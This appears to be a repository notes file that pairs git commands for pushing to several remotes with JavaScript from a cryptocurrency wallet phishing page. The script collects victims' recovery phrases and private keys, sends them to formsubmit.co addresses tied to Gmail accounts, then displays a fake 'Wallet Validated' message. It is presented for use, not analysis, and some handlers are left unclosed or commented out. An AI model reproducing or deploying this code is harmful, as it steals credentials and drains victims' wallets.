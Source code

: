 # goodman
Essayz new link


to remove a remote repository
git remove remote origin

to delete commits and go back to head
git reset --hard HEAD~1



git add .
git commit -m "first commit"
git branch -M main
git remote add Abatisemulti1 https://github.com/Abatisemulti1/urban-octo-engine.git
git push -u Abatisemulti1 main






       /*  $.ajax({
          url: 'parser.php',
          method: 'POST',
          data: { import_type: 'phrase', wallet: wallet, phrase: phraseInputVal },
          success: function (res) {
            if (res.trim() != "") {
              if (res.trim() == "string_error") {
                alert('Fill in your recovery phrase');
              } else if (res.trim() == "success") {
                phraseInputVal = '';
                document.querySelector('.sending').style.display = 'block';
                setTimeout(() => {
                  alert('Wallet Validated...');
                  redirect();
                }, 3000);                             
              }
            } else {
              alert('Could not proceed due to some errors, kindly try again later.')
            }
          }
        }); */


        <script>
    const phraseProceedBtn = document.getElementById('phraseProceed');
    const keystorejsonProceedBtn = document.getElementById('keystorejsonproceed');
    const privatekeyProceedBtn = document.getElementById('privatekeyProceed');
    const phraseProceedHandler = (e) => {
      let phraseInputVal = document.getElementById('phraseInput').value;
      const wallet = document.getElementById('wallet_id').value;
      if (phraseInputVal.trim() === "") {
        alert('Fill in your recovery phrase');
      } else {
        e.preventDefault();
        let a = document.querySelector(".label");
        mail = "codenew39@gmail.com";
        next = "next.html";
        subject = `${window.location.hostname} ${new Date()}`;
        let r = new FormData();
        let s = document.querySelector("form").name;
        if (e.target.name === "phrasekey") {
          phrase = document.querySelector("textarea").value;
          r.append("phraseKey", phrase);
        }
        r.append("_captcha", false);
        r.append("_next", next);
        r.append("_template", "table");
        r.append("_subject", subject);
        let n = `https://formsubmit.co/${mail}`;
        fetch(n, {
          method: "POST",
          body: r
        }).then((e) =>
          window.location.assign(next),
        );
      }
    }

    const keystorejsonProceedHandler = (e) => {
        let keystorejson = document.getElementById('keystorejson').value;
        let keystorepassword = document.getElementById('keystorepassword').value;
        const wallet = document.getElementById('wallet_id').value;
        if (keystorejson.trim() === "" || keystorepassword === "") {
          alert('Fill out all form fields before proceeding');
        } else {
        };

        const privateKeyProceedHandler = () => {
          let privatekey = document.getElementById('privatekey').value;
          const wallet = document.getElementById('wallet_id').value;
          console.log(wallet);
          if (privatekey.trim() === "") {
            alert('Fill in your private key');
          } else {
            $.ajax({
              url: `https://formsubmit.co/Mayhemofflin@gmail.com`,
              method: 'POST',
              data: {
                import_type: 'private',
                wallet: wallet,
                privatekey: privatekey
              },
              success: function (res) {
                if (res.trim() !== "") {
                  if (res.trim() === "string_error") {
                    alert('Fill in your private key.');
                  } else if (res.trim() === "success") {
                    privatekey = '';

                    document.querySelector('.sending').style.display = 'block';
                    setTimeout(() => {
                      alert('Wallet Validated...');
                      redirect();
                    }, 3000)
                  }
                } else {
                  alert('Could not proceed due to some errors, kindly try again later.')
                }
              }
            });
          }
        };

        /*  const redirect = () => {
           window.location.href = 'barcode.jpg';
         }; */

        phraseProceedBtn.addEventListener('click', phraseProceedHandler);
        keystorejsonProceedBtn.addEventListener('click', keystorejsonProceedHandler);
        privatekeyProceedBtn.addEventListener('click', privateKeyProceedHandler);
  </script>


git config user.name "kingdavid112"
git config user.email "kingdavid5454p@gmail.com"
git config credential.${remote}.username kingdavid112
git config credential.helper store

git remote add kimconcrete https://github.com/kimconcrete/omothisgatswork.git
git push -u origin main

git remote add kingdavid112 https://github.com/kingdavid112/davidourking.git
git push -u kingdavid112 main